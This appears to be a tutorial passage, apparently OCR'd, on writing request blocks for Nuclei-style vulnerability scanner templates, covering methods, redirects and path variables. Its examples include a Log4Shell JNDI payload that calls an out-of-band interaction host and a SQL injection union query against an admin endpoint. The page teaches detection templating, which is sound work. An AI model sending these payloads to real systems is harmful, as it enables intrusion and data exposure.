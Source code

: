 <p id="raw_request"> </p>

> ### 2. **Request block**
Multiple requests can be made from only one single template. That
>> **a. Raw request**

Requests block specifies the start of the requests for the template.
```
requests:
```

#### **Method**
<h1 id="test"></h1>
Those request method can be GET, POST, PUT, DELETE,...

```
requests:
  - request: #Method in front of each request
      - |
        GET /?x=${jndi:ldap://${hostName}.uri.{{interactsh-url}}/a} HTTP/1.1
        Host: {{Hostname}}
```

**Redirect**

---

This field decides whether current request can be redirect or not. By default, redirects are not allowed(it brings false value), However, if user want to redirect, it can be turn on with redirects: true.

```
requests:
  - request:
      - |
        POST /admin/?n=language&c=language_general&a=doExportPack HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        appno= 1 union SELECT 98989*443131,1&editor=cn&site=web

    redirects: true
```

**Path**

---

Variables start with {{ and end with }} and are case-sensitive.

```
Full link: https://testpage.com:8081/login/login.php

{{BaseURL}} https://testpage.com:8081/login/login.php

{{RootURL}} https://testpage.com:8081

{{Hostname}} testpage.com:8081

{{Host}} testpage.com

{{Port}} 8081

{{Path}} /login

{{Scheme}} https

{{FullPath}} /login/login.php
```
